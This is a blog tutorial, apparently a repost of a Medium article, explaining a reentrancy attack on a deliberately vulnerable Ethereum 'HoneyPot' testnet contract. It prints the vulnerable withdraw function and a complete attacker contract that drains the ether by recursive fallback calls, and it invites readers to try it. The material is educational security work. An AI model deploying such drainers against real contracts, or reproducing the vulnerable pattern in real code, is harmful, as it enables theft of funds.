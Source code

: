 ```yaml
---
layout: 	coco
title: 		"理解 可重入"
date: 		2018-08-01 12:00:00
author: 	"shamphone"
chapter:	"1"
status:		"hidden"

---
```

参考 https://medium.com/@gus_tavo_guim/reentrancy-attack-on-smart-contracts-how-to-identify-the-exploitable-and-an-example-of-an-attack-4470a2d8dfe4

To code smart contracts is certainly not a free picnic. A bug introduced in the code cost money and most likely not only your money but also other people’s as well. The reality is that the Ethereum ecosystem is still in its infancy but growing and standards are being defined and redefined by the day so one need to be always updated and akin to smart contract security best practices.

As a student of smart contract security, I have been on the look out for vulnerabilities in code. Recently the educators at Team B9lab informed me of this contract deployed to the testnet.

pragma solidity ^0.4.8;
contract HoneyPot {
  mapping (address => uint) public balances;
  function HoneyPot() payable {
    put();
  }
  function put() payable {
    balances[msg.sender] = msg.value;
  }
  function get() {
    if (!msg.sender.call.value(balances[msg.sender])()) {
      throw;
    }
      balances[msg.sender] = 0;
  }
  function() {
    throw;
  }
}
The HoneyPot contract above originally contained 5 ether and was deliberately devised to be hacked. In this blog post I want to share with you how I attacked this contract and ‘collected’ most of its ether.

The Vulnerable Contract

The purpose of the HoneyPot contract above is to keep a record of balances for each address that put() ether in it and allow these addresses to get() them later.

Let’s look at the most interesting parts of this contract:

mapping (address => uint) public balances;
The code above maps addresses to a value and store it in a public variable called balances . It allows to check the HoneyPot balance for a address.

balances[0x675dbd6a9c17E15459eD31ADBc8d071A78B0BF60]
The put() function below is where the storage of the ether value happens in the contract. Note that msg.sender here is the address from the sender of the transaction.

function put() payable {
    balances[msg.sender] = msg.value;
  }
This next function we find where the exploitable is. The purpose of this function is to let addresses to withdraw the value of ether they have in the HoneyPot balances.

function get() {
    if (!msg.sender.call.value(balances[msg.sender])()) {
      throw;
    }
      balances[msg.sender] = 0;
  }
Where is the exploitable and how can someone attack this you ask? Check again these lines of code out:

if (!msg.sender.call.value(balances[msg.sender])()) {
      throw;
}
balances[msg.sender] = 0;
HoneyPot contract sets the value of the address balance to zero only after checking if sending ether to msg.sender goes through.

What if there is an AttackContract that tricks HoneyPot into thinking that it still has ether to withdraw before AttackContract balance is set to zero. This can be done in a recursive manner and the name for this is called reentrancy attack.

Let’s create one.

Here is the full contract code. I will attempt my best to explain its parts.

pragma solidity ^0.4.8;
import "./HoneyPot.sol";
contract HoneyPotCollect {
  HoneyPot public honeypot;
  function HoneyPotCollect (address _honeypot) {
    honeypot = HoneyPot(_honeypot);
  }
  function kill () {
    suicide(msg.sender);
  }
  function collect() payable {
    honeypot.put.value(msg.value)();
    honeypot.get();
  }
  function () payable {
    if (honeypot.balance >= msg.value) {
      honeypot.get();
    }
  }
}
The first few lines is basically assigning the solidity compiler to use with the contract. Then we import the HoneyPot contract which I put in a separate file. Note that HoneyPot is referenced throughout the HoneyPotCollect contract. And we set up the contract base which we call it HoneyPotCollect .

pragma solidity ^0.4.8;
import "./HoneyPot.sol";
contract HoneyPotCollect {
  HoneyPot public honeypot;
...
}
Then we define the constructor function. This is the function that is called when HoneyPotCollect is created. Note that we pass an address to this function. This address will be the HoneyPot contract address.

function HoneyPotCollect (address _honeypot) {
    honeypot = HoneyPot(_honeypot);
}
Next function is a kill function. I want to withdraw ether from the HoneyPot contract to the HoneyPotCollect contract. However I want also to get the collected ether to an address I own. So I add a mechanism to destroy the HoneyPotCollect and send all ether containing in it to the address that calls the kill function.

function kill () {
  suicide(msg.sender);
}
The following function is the one that will set the reentrancy attack in motion. It puts some ether in HoneyPot and right after it gets it.

function collect() payable {
    honeypot.put.value(msg.value)();
    honeypot.get();
  }
The payable term here tells the Ethereum Virtual Machine that it permits to receive ether. Invoke this function with also some ether.

The last function is what is known as the fallback function. This unnamed function is called whenever the HoneyPotCollect contract receives ether.

function () payable {
    if (honeypot.balance >= msg.value) {
      honeypot.get();
    }
  }
This is where the reentrancy attack occur. Let’s see how.

The Attack

After deploying HoneyPotCollect, call collect() and sending with it some ether.

HoneyPot get() function sends ether to the address that called it only if this contract has any ether as balance. When HoneyPot sends ether to HoneyPotCollect the fallback function is triggered. If the HoneyPot balance is more than the value that it was sent to, the fallback function calls get() function once again and the cycle repeats.

Recall that within the get()function the code that sets the balance to zero comes only after sending the transaction. This tricks the HoneyPot contract into sending money to the HoneyPotCollect address over and over and over until HoneyPot is depleted of almost all its ether.

Try it yourself. I left 1 test ether in this contract so others could try it themselves. If you see no ether left there, then it is because someone already attacked it before you.

I originally created this code for the HoneyPotAttackusing the Truffle framework. Here is the code in case you need it for reference. Enjoy!